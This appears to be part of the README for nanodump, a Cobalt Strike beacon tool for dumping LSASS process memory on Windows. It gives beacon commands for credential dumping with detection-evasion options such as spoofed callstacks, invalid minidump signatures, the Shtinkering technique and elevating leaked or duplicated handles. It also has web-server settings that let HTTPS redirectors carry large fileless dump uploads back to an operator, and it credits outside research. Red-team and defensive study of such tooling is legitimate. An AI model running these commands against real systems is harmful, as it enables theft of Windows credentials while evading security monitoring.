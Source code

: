 Open a handle to LSASS with a spoofed callstack and download the minidump with an invalid signature:
```
beacon> nanodump --spoof-callstack
```

Use the Shtinkering techinque:
```
beacon> nanodump --shtinkering
```

Obtain a handle using seclogon leak local and create the dump using the Shtinkering techinque:
```
beacon> nanodump --seclogon-leak-local --shtinkering
```

Obtain a handle with low privs and elevate it using _elevate handle_:
```
beacon> nanodump --elevate-handle
```

Obtain a handle with low privs using a spoofed callstack and elevate it using _elevate handle_:
```
beacon> nanodump --elevate-handle --spoof-callstack
```

Duplicate an existing low priv handle and elevate it using _elevate handle_:
```
beacon> nanodump --duplicate-elevate
```

<h2 id="redirectors">5. HTTPS redirectors</h2>

If you are using an HTTPS redirector (as you should), you might run into issues when downloading the dump filelessly due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
- [Antonio Cocomazzi](https://twitter.com/splinter_code) for [Abusing leaked handles to dump LSASS memory](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html) and [Racing for LSASS dumps](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html)
- [xpn](https://twitter.com/_xpn_) for [Exploring Mimikatz - Part 2 - SSP](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
- [Matteo Malvica](https://twitter.com/matteomalvica) for [Evading WinDefender ATP credential-theft: a hit after a hit-and-miss start](https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/)